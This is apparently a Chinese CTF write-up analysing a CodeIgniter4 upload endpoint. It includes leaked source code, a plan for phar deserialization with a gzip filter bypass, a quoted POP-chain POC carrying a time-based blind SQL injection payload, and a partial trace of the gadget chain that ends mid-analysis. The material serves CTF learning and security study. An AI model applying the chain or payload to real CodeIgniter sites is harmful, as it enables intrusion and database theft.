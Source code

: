 # WEB
## code4
### 源码泄露
dirsearch扫半天不如随手www.zip

![[Pasted image 20230215190400.png]]

这个框架是有洞的，但是根据博客所说PHP7.2以上就以及修掉了
![[Pasted image 20230215191235.png]]

注意到路由Upload.php
```php
<?php  
  
namespace App\Controllers;  
  
use CodeIgniter\Files\File;  
  
class Upload extends BaseController  
{  
    protected $helpers = ['form'];  
  
    public function index()  
    {        return view('upload_form', ['errors' => []]);  
    }  
  
    public function upload()  
    {        $validationRule = [  
            'userfile' => [  
                'label' => 'Image File',  
                'rules' => 'uploaded[userfile]'  
                    . '|max_size[userfile,100]'  
                    . '|max_dims[userfile,1024,768]',  
            ],  
        ];  
  
        if (! $this->validate($validationRule)) {  
            $data = ['errors' => $this->validator->getErrors()];  
            return view('upload_form', $data);  
        }  
  
        $img = $this->request->getFile('userfile');  
        $img_content = file_get_contents($img);  
       if(preg_match("/HALT_COMPILER/i",$img_content)){  
          die("hack");  
       }  
        $name = $img->getName();  
        $img->store('',$name);  
        return view('upload_success');      
          
}  
  
    public function info(){  
       $path = $this->request->getPost('name');  
        $data = ['uploaded_flleinfo' => new File($path)];  
        if($data){  
            return view('upload_info', $data);  
        }  
        else{  
            return "fail";  
        }  
            }  
}
```

在函数Upload中ban了 ==HALT_COMPILER== 结合函数名直觉上是phar反序列化然后结合gzip压缩绕过
用composer来还原环境

![[Pasted image 20230215195551.png]]

在这篇文章的末尾有poc，在评论区的讨论中似乎在新的版本中仍然是可以实现反序列化的，只是只有在php7.2才能实现读文件
[痛心的CodeIgniter4.x反序列化POP链挖掘报告 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/269597.html)
[(70条消息) CodeIgniter4.x反序列化漏洞_xzhome的博客-CSDN博客_codeigniter4 encryption](https://blog.csdn.net/qq_48985780/article/details/121252141)

```php
<?php
namespace CodeIgniter\Database\MySQLi;
class Connection{
public $hostname = '127.0.0.1';  # The attacker's MySQL IP address
public $port = '3306';    # The attacker's MySQL Port
public $database = 'laravel';  # The attacker's MySQL Databases
public $username = 'root';   # The attacker's MySQL UserName
public $password = 'root';   # The attacker's MySQL Password
public $charset = 'utf8';   # utf8
public $escapeChar = '';
public $pretend = false;
}

namespace CodeIgniter;
class Model{
public $db;
public $table = "mysql.user";
public $primaryKey = "1=(case when (select (select group_concat(table_name) from information_schema.tables where table_schema=database()) regexp '^aa') then sleep(1) else 0 end)#";
public function __construct($db){
$this->db = $db;
$payload = $_GET['payload'];
if(isset($payload)){
$this->primaryKey = $payload;
}
}
}


namespace CodeIgniter\Session\Handlers;
class MemcachedHandler{
public $lockKey = '123';
public $memcached = 'a';
public function __construct($memcached){
$this->memcached = $memcached;
}
}

namespace CodeIgniter\Cache\Handlers;
class RedisHandler{
public $redis;
public function __construct($redis){
$this -> redis = $redis;
}
}

$a = array(new RedisHandler(new \CodeIgniter\Session\Handlers\MemcachedHandler(new \CodeIgniter\Model(new \CodeIgniter\Database\MySQLi\Connection()))));
echo serialize($a);

```

实际的poc应该是会有一些改变的既然已经知道存在phar反序列化，现在需要一个能够触发反序列化的地方，会涉及到对上传文件的操作的就只有Upload.php中的
调用了File()和view()
common.php中可以看到view()是调用了unset的

```PHP
function view(string $name, array $data = [], array $options = []): string  
{  
    /** @var CodeIgniter\View\View $renderer */  
    $renderer = Services::renderer();  
  
    /** @var \CodeIgniter\Config\View $config */  
    $config   = config(View::class);  
    $saveData = $config->saveData;  
  
    if (array_key_exists('saveData', $options)) {  
        $saveData = (bool) $options['saveData'];  
        unset($options['saveData']);  
    }  
  
    return $renderer->setData($data, 'raw')->render($name, $options, $saveData);  
}
```

也就是说在File()将上传的文件放进$data然后给了view()，然后就unset触发反序列化了
对POC有一些疑惑，看一遍链子的调用
Cache/Handlers/RedisHandler.php
__destruct()可以调用任意的close()函数

![[Pasted image 20230215233753.png]]

全局找close()函数

![[Pasted image 20230216093048.png]]

close()函数
	MemcachedHandler.php中 ==$this->memcached== 和 ==this->lockKey== 可控找delete()
	
![[Pasted image 20230216100044.png]]

